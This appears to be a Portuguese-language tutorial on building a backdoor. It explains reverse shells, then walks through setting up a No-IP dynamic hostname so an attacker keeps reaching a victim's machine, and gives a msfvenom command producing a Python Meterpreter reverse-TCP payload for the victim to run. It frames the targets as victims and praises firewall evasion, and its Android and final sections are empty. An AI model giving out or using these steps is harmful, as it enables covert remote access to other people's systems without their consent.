


<p align="center">
    
</p>

---

## O que é backdoor?

Backdoor é um recurso oculto em um software que concede um certo nível de acesso ao software ou sistema para quem estiver ciente desse recurso. Geralmente não é de conhecimento do propietário do sistema.

Isso permite que um usuário externo possa acessá-lo para realizar algum tipo de modificação no sistema em sí ou em um software específico.

Um backdoor pode ser criado por um desenvolvedor, afim de realizar manutenções em softwares, porém, é um meio bastante utilizado por usuários mal intencionados para obter acesso ilícito para a realização de algum tipo de ataque, isso permite que eles entrem e saiam da maneira que quiserem, dando-lhes acesso remoto ao sistema.

O funcionamento de um backdoor, estar associado a dois conceitos importantes, são eles:

### Daemons:

Um *daemon* é basicamente um processo de longa duração executado em segundo plano, portanto, é um processo que é executado sem qualquer interação do usuário. Para um usuário comum é completamente invisível e pode até não suspeitar de sua existência.
    
### Reverse Shell:

Ao atacar, os hackers geralmente necessitam obter acesso remoto no sistema alvo.

Uma técnica comum que eles usam para ganhar controle é a vinculação de shell: primeiro o atacante compreende seu sistema, explorando um serviço vulnerável e enviando um *payload*. Este *payload* é na verdade, um shell remoto que abre uma porta no sistema da vítima, que fica a espera do invasor se conectar e executar os comandos.

No entanto, o que acontece se a vítima estiver protegida por um firewall que descarta qualquer requisição de conexão de entrada remota?

<p align="center">
    
</p>

O firewall irá bloquear as conexões de entrada, mas não as de saída, porque você sabe... as pessoas precisam acessar a Internet.

Então, em vez de tentar se conectar ao shell que ele colocou na vítima, o invasor apenas construirá seu shell para que ele inicialize a conexão. Tudo o que ele tem que fazer é esperar pacientemente a vítima para se conectar a ele.

<p align="center">
    
</p>

Desta forma, é possível obter um backdoor invisível que será ignorado pela maioria dos firewalls.

## Configuração do ambiente

Para começar a criar seu primeiro backdoor, será necessário que você possua um sistema para realiza o ataque e o sistema para atacar.

É recomendado a utilização de sistemas linux para a realização do ataque, devido a quantidade gigantesca de ferramentas para a plataforma, você pode usar qualquer sistema linux, porém, recomendamos  a utilização de sistemas criados especialmente para este tipo de atividade, como: [Kali Linux](https://www.kali.org/), [Backbox](https://backbox.org/), [Deft](http://www.deftlinux.net/), entre outros.

Para usar como sistema alvo, você poderá escolher qualquer sistema que seja de seu interesse realizar o ataque, como: sistemas Windowns, Linux, Android...

## Prática

#### Utilizando o NO-IP

Para a realização desta atividade, é comum utilizarmos o ip de nossa máquina para que venhamos conectar-se a vítima, porém, como geralmente o ip vinculado a nossa máquina é dinâmico, ao reiniciamos nosso sistema obteremos um novo ip e assim não possuiremos mais acesso a máquina da vítima, sendo necessário recomeçar todo o processo de criar o payload e fazer com que a vítima o execute.

Para sanar este problema, iremos utilizar o [NO-IP](https://www.noip.com/), um serviço de criação de host que ficará apontado para nossa máquina e verificando se houve mudança de ip, assim sempre será possível utilizar um host amigável ao invés do ip.

##### Instalação

Para começar, registre um domíno no site:

    https://www.noip.com/

Agora, você poderá baixar o cliente do no-ip para rodar em sua máquina. Para execução dos comando abaixo, recomendado a utilização de ```sudo su```:

7. ```cd /usr/local/src```

8. ```wget http://www.no-ip.com/client/linux/noip-duc-linux.tar.gz```

9. ```tar xzf noip-duc-linux.tar.gz```

10. ```cd no-ip-2.1.9-1```

11. ```make```

12. ```make install```

Caso seja apresentada a seguinte mensagem: ```make not found``` ou ```missing gcc```, será necessário instalar as ferramentas para compilação de código ```C```.

Ainda com permissões ```sudo```, execute o seguinte comando para criar o arquivo de configuração padrão.

13. ```/usr/local/bin/noip2 -C```

Você será solicitado a fornecer seu nome de usuário e senha para o No-IP, bem como qual hosts você deseja utilizar, caso você tenha registrado mais de um.

Agora que o cliente está instalado e configurado, você só precisa iniciá-lo. Basta executar este comando final para iniciar o cliente em segundo plano:

14. ```/usr/local/bin/noip2```

Você será solicitado a fornecer seu nome de usuário e senha para o No-IP, bem como quais nomes de host você deseja atualizar. Tenha cuidado, uma das perguntas é "Você deseja atualizar todos os hosts". Se respondido incorretamente, isso pode afetar nomes de host em sua conta que estão apontando para outros locais.

Agora que o cliente está instalado e configurado, você só precisa iniciá-lo. Basta emitir este comando final para iniciar o cliente em segundo plano:

    /usr/local/bin/noip2

#### Realizando ataque em python

Para criar um payload em python é muito simples, basta digitar o comando abaixo alterando o ```LHOST``` para seu ip ou dns, caso tenha configurado, e ```LPORT``` para a porta de seu desejo.


    msfvenom -p python/meterpreter/reverse_tcp LHOST=SEU_IP LPORT=SUA_PORTA R > payload.py

Ao concluir, será gerado um código em python que poderá ser executado em qualquer sistema de seu interesse, porém, dentro deste código, existe uma parte codificada em base64, desta forma, podemos usar algum [decodificador online](https://www.base64decode.org/) para ver o que é.

#### Realizando ataque em dispositivos android


#### Iniciar a ação


https://www.wikihow.com/Create-a-Nearly-Undetectable-Backdoor-using-MSFvenom-in-Kali-Linux

WWW.NODISTRIBUTE.COM

